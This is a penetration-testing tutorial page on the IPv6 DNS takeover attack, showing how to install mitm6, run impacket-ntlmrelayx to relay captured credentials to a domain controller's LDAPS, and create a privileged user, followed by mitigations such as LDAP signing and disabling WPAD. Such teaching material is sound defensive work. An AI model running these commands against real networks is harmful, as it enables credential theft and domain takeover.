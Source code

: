 # IPv6 DNS Takeover

This attack takes advantage of machines utilizing IPv4 while still having IPv6 active in their network adapter properties. When a machine is configured in this way, one question comes to mind. Who is the DNS for IPv6? Most of the time, nobody.

With this misconfiguration, an attacker can listen for any incoming IPv6 traffic, declaring themselves as the DNS for IPv6. Through this process, an attacker can gain authentication to the Domain Controller with LDAP (Lightweight Directory Access Protocol) or SMB (Server Message Block).





## IPv6 DNS Takeover attack

For the installation of the tool follow this steps:

{% code title="mitm6 installation" overflow="wrap" %}
```bash
cd /opt
sudo git clone https://github.com/dirkjanm/mitm6
sudo pipx install .
```
{% endcode %}

{% code title="Kali installation cmd" %}
```bash
sudo apt install mitm6
```
{% endcode %}

### Setup and run Ntlmrelayx

Before starting `mitm6` , we have to configure and run the relay which will attempt to access the DC's LDAP service with the capted credentials.

{% code overflow="wrap" %}
```bash
impacket-ntlmrelayx -6 -t ldaps://DC_IP -wh FAKE.DOMAIN.local -l lootme

# -6: Listen on both IPv6 and IPv4
# -t: Target to relay the credentials to, can be an IP, hostname or URL like domain\username@host:port
# -l: Loot directory in which gathered loot such as SAM dumps will be storedbash (in our local machine)
# -wh: Enable serving a WPAD file for Proxy Authentication attack, setting the proxy host to the one supplied.
```
{% endcode %}

### Run mitm6 tool

Once we have started the relay, we can start the mitm6 tool which simulate a Fake IPv6 DNS.

```bash
sudo mitm6 -d DOMAIN
```



### Check the results

If the attack will successfull we would have our loot directory with all data.

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### User creations

When a victim user login into his machine, the tool `mitm6` will try to create a user with more privilege.

For the information check the output of the tool when a user loggins.

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Mitigation

### Limits the IPv6 by rule

Disable IPv6 entirely may have unwanted side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from working:

* (Inbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6-In**)
* (Inbound) Core Networking - **Router Advertisement** (**ICMPv6-In**)
* (Outbound) Core Networking - **Dynamic Host Configuration Protocol for IPv6** (**DHCPV6 - Out**)

### Disable WPAD

If WPAD is not in use internally, **disable it** via Group Policy and by disabling the **WinHttpAutoProxySvc service**

### Make LDAP secure by attack

Relaying to LDAP and LDAPS can only be mitigated by **enabling** both **LDAP signing** and LDAP **channel binding**.





